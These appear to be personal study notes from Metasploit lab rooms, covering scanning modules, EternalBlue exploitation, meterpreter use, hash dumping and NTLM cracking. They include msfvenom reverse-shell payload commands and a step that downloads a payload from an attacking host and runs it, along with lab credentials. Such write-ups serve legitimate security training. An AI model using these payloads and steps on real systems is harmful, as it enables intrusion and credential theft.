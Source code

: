 
- common metasploit commands :
> launch `msfconsole` --> we can do `ls`, `ping -c 1 8.8.8.8`, `clear`,`history` (this gives all used commands) , but `output redirection '>'` is not allowed.

### _Metasploit Exploitation_

- there are many `port scan` modules and we can use them by doing `search portscan` on `msfconsole` terminal and use the modules by their index number, then run `show options` and configure the concurrency, RHOSTS, ports and threads
- for `UDP scan`, we use `udp_sweep` module and for `SMB scan`, we use `smb_enumshares` and `smb_version` modules
- we are given a target IP ,  we run `nmap IP` and find out thee is `5` open ports and then we use `netbios/nbname` module to find out what netbios name is running and it is `ACME IT SUPPORT`
- To find password of a user called `penny` on doing SMB login, we use the `smb_login` module and set up all the configurations and use the given `Metasploitwordlist.txt` for passwords and we get a hit for correct password as `leo1234`

##### _The Metasploit Database_
- first run `systemctl start postgresql` and then do `msfdb init` command on the `msf6` console, now we can check the database status by running `db_status`

>You may want to look for low-hanging fruits such as:
>HTTP: Could potentially host a web application where you can find vulnerabilities like SQL injection or Remote Code Execution (RCE). 
  FTP: Could allow anonymous login and provide access to interesting files. 
  SMB: Could be vulnerable to SMB exploits like MS17-010
  SSH: Could have default or easy to guess credentials
  RDP: Could be vulnerable to Bluekeep or allow desktop access if weak credentials were used. 

- we don't always have to use the default payload we can do `show payloads` and do `set payload n` and use a different payload
- we've to exploit the critical vulnerability in the VM and we run nmap scan `nmap -sC [IP] --vv` , and then we use the `ms17-010/eternalblue` module and set the configurations and run the exploit
- we get `meterpreter` shell where we can run linux commands so we do `search -f flag.txt` and it gives us the location so we navigate to that file and cat it out and get the flag 
- then we have to find the `NTLM hash` of a user called pirate so we run `hashdump` on the meterpreter and we get the hash and the last part separated by `:` is the `NTLM` hash

###### _Payloads_
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf --> linux executable and linkable format
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe --> windows .exe file
msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php --> reverse php shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp --> reverse asp shell
msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py 
--> reverse python shell
```

#### _Using msfvenom_
- start up msfconsole on normal terminal and use the `multi/handler` module as a listener, something like a `nc listener`, so do `show options` and set up the configurations `LHOST`,`LPORT` and do `set payload linux/x86/meterpreter/reverse_tcp` and click on run and it will listen for any activity
- then in another terminal, set up a python server by `python3 -m http.server 9000` and do ssh login into the creds they've provided `murphy:1q2w3e4r` , then do `sudo su` and obtain `root shell` 
- now with `msfvenom`, let's create the same payload in a new terminal by doing `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=attacking_IP LPORT=4444 -f elf > rev_shell.elf`
- now in the root shell run `wget http://attacking_IP:9000/rev_shell.elf` and it gets downloaded onto the ssh machine, now give it executable permissions by `chmod 777 rev_shell.elf` and then do `./rev_shell.elf` and in our multi handler terminal we get meterpreter session
- now to dump the hashes use the module by doing `run post/linux/gather/hashdump` and we get the hash of `claire`.

### _Metasploit : Meterpreter (Post Exploitation Challenge)
- perform an nmap scan - `nmap -sC -sV [IP] -vv`, then launch the `msfconsole` and do `use  exploit/windows/smb/psexec` and do `show options` , proceed to configure the rhosts, lhost and SMBUser and SMBPass (creds are `ballen:Password1`)
- now run the exploit and we get a meterpreter session, do `sysinfo` and we get Computer Name and Domain name, to find the name of the share that's likely used, do the following
- `background` the current session and get back to msfconsole, then `use post/windows/gather/enum_shares` and do `set session 1` then do `run` and it shows the possible shares out of which we identify a share called `speedster`, now to get back to meterpreter do `session -i 1` and run `hashdump` for the NTLM hash of user `jchambers`
- we get the NTLM hash as `69596c7aa1e8daee17f8e78870e25a5c`, so we will crack it using John
> `john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hash`
> cracked = **Trustno1**
- to find `secrets.txt` do `search -f secrets.txt` and navigate to that directory and cat out the contents to submit
---
